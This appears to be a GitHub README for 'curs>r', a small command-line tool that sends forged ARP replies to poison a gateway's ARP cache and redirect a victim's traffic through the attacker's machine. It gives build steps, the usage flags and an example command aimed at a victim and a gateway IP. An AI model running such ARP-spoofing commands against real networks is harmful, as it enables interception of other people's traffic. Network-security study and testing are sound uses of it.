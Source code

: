 # curs>r
A small tool to send malicious arp packets that poison the arp cache of gateway, so the victim's traffic is able to route to the attacker's machine.The curs>r name inspired by an 80s survival horror game in a netflix movie called "Choose or Die" where the game makes the players step into a surreal world of next-level terror and forces them to make choices with deadly consequences.

### Prerequisites
+ [CMake](http://www.cmake.org "CMake project page") (>= 3.17)

### Building
```bash
cd build
./builder.sh
```

### Usage
```bash
➜ ./curser -h
Usage:  curser [ -<flag> [<val>] | --<name> <val>] ]...

   -i, --interface-name       traffic output interface
   -o, --op-code              type of packet[req/rep]
   	 --victim-ip          victim ip address
       --dst-ip               gateway ip
       --dst-mac              gateway mac address
   -h, --help                 display usage information and exit
   -v, --version              display version information and exit
  
➜ sudo ./curser -i en0 -o rep --victim-ip 192.168.0.22 --dst-ip 192.168.1.1 --dst-mac 00:01:02:03:04:05
```

